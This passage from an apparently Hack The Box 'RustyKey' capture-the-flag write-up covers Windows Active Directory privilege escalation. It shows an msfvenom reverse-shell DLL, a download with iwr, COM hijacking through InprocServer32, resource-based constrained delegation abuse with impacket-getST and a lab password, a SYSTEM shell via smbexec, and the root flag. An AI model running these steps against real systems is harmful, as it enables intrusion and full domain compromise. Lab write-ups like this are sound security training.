PropagationFlags  : InheritOnly

RegistryRights    : ReadKey
AccessControlType : Allow
IdentityReference : BUILTIN\Users
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : None
```

In order to abuse that we prepared a `Dynamic Link Library (DLL)` which then should get called by `InprocServer32`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/serve]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=6969 -f dll -o asdf.dll
Warning: KRB5CCNAME environment variable not supported - unsetting
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: asdf.dll
```

To `catch` the `callback` we fired up a `listener` in `Metasploit`.

```shell
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
                            /  ,' `-._<.===-'
                           /  /
                          /  ;
              _          /   ;
 (`._    _.-"" ""--..__,'    |
 <_  `-""                     \
  <`-                          :
   (__   <__.                  ;
     `-.   '-.__.      _.'    /
        \      `-.__,-'    _,'
         `._    ,    /__,-'
            ""._\__,'< <____
                 | |  `----.`.
                 | |        \ `.
                 ; |___      \-``
                 \   --<
                  `.`.<
                    `-'


       =[ metasploit v6.4.64-dev                          ]
+ -- --=[ 2519 exploits - 1296 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.19
LHOST => 10.10.16.19
msf6 exploit(multi/handler) > set LPORT 6969
LPORT => 6969
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.19:6969
```

Next we transferred the `.dll` file to the box using `Invoke Web-Request`, shorthand `iwr`.

```cmd
PS C:\temp> iwr 10.10.16.19/asdf.dll -o asdf.dll
iwr 10.10.16.19/asdf.dll -o asdf.dll
```

After that we modified the `ItemProperty` to point to our `.dll` file.

```cmd
PS C:\temp> Set-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name '(default)' -Value 'C:\temp\asdf.dll'
Set-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name '(default)' -Value 'C:\temp\asdf.dll'
```

After about `20 seconds` we received a shell as `mm.turner`.

```shell
<--- CUT FOR BREVITY --->
[*] Command shell session 1 opened (10.10.16.19:6969 -> 10.129.104.184:59492) at 2025-06-29 19:39:39 +0200


Shell Banner:
Microsoft Windows [Version 10.0.17763.7434]
-----
          

C:\Windows>whoami
whoami
rustykey\mm.turner
```

## Enumeration (MM.TURNER)

Once more but with the same result, we performed the manual check on the permissions of our newly gained user and moved back to `BloodHound`. Consistency is key.

```cmd
C:\Windows>whoami /all
whoami /all

USER INFORMATION
----------------

User Name          SID                                          
================== =============================================
rustykey\mm.turner S-1-5-21-3316070415-896458127-4139322052-1138


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
RUSTYKEY\DelegationManager                 Group            S-1-5-21-3316070415-896458127-4139322052-1136 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to BACKUPADMIN / SYSTEM

### Access Control Entry (ACE) AddAllowedToAct Abuse / Resource Based Constrained Delegation (RBCD)

The user `mm.turner` was member of the `DELEGATIONMANAGER` group which would allow us to `impersonate` the `backupadmin` user by abusing the `AddAllowedToAct` permission on `DC.RUSTYKEY.HTB`. This would grant us `NT Authority\SYSTEM` privileges and access to the `root.txt`.



- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)

In order to pull off the `Resource Based Constrained Delegation (RBCD)` we needed a `computer object` either added to the `Domain`, which we couldn't do because of the `Machine Account Quota` set to `0` or we could use an already available object like the `IT-COMPUTER3` object.

We started the attack by first setting the `Principal` within our `PowerShell` session pointing at the `Domain Controller`.

```cmd
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

Then we verified that we still had a valid `Kerberos Ticket`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ klist
Ticket cache: FILE:IT-COMPUTER3$.ccache
Default principal: IT-COMPUTER3$@RUSTYKEY.HTB

Valid starting       Expires              Service principal
06/29/2025 19:28:53  06/30/2025 05:28:53  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 06/30/2025 19:28:52
```

Now we performed the `Impersonation` by using `impacket-getST` which resulted in a `Kerberos Ticket` we exposed to our shell.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ impacket-getST 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!' -k -spn 'cifs/dc.rustykey.htb' -impersonate backupadmin
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ export KRB5CCNAME=backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
```

As last step we used `impacket-smbexec` to get a shell as `NT Authority\SYSTEM`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ impacket-smbexec -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

```cmd
C:\Windows\system32>whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

C:\Windows\system32>
```

## root.txt

```cmd
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
9d75f8350e4b849116a2cf039ff6e8c3
```
